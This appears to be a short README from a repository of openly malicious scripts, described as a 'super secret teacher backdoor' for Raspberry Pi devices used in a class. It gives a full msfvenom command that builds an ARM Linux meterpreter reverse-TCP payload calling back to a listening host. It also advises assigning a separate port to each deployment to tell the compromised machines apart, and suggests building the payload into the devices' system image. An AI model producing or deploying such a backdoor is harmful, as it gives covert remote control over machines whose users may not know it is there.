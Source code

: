 The scripts you find here are malicious!! Don't touch!

#Super secret teacher backdoor
To generate a new shellscript that will work on the raspberry pi hosts, use the following command:

msfvenom --arch armle --platform linux -p linux/armle/meterpreter/reverse_tcp LHOST=<SetListeningHost> LPORT=4444 -f elf > shell.elf

You might consider generating a new script with a new port pairing for each deployment of this payload.
This way, you can keep track of each different deployment port pairing and know which machine is calling you back. This is important to build into the image being added to raspberry pi devices if that is the way this class is being run.
